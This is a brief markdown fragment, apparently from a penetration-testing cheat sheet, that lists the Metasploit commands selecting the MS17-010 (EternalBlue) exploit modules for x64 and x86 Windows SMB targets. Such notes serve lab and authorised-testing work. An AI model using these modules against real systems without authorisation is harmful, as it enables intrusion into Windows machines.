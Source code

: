## MS17-010 (EternalBlue) (x64)
```nix
msf6> use exploit/windows/smb/ms17_010_eternalblue
```
## MS17-010 (EternalBlue) (x86)
```nix
msf6> use exploit/windows/smb/ms17_010_psexec
```